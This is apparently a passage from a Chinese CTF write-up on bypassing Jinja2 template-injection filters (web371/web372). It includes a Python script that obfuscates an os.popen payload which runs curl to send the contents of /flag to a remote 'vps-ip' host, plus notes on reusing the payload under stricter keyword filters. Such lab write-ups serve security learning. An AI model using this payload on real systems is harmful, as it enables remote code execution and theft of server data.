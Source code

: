 生成cmd的脚本：

```
def aaa(t):
	t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
	return t
s='__import__("os").popen("curl http://vps-ip:9023?p=`cat /flag`").read()'
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+aaa(str(ord(s[i])))+')%2b'
		else:
			t+='chr('+aaa(str(ord(s[i])))+')'
	return t
print(ccchr(s))
```

![image-20240307192751635](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240307192751635.png)

{% raw %}

### [web372]过滤''、""、[、args、_、os、{{、request、数字、{%print、count

{% endraw %}

利用上题的payload2，`count`换成`length`

![image-20240309202914705](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240309202914705.png)

参考：

https://blog.csdn.net/Jayjay___/article/details/132210050

https://www.freebuf.com/articles/web/325473.html

```
{% endif %}
```


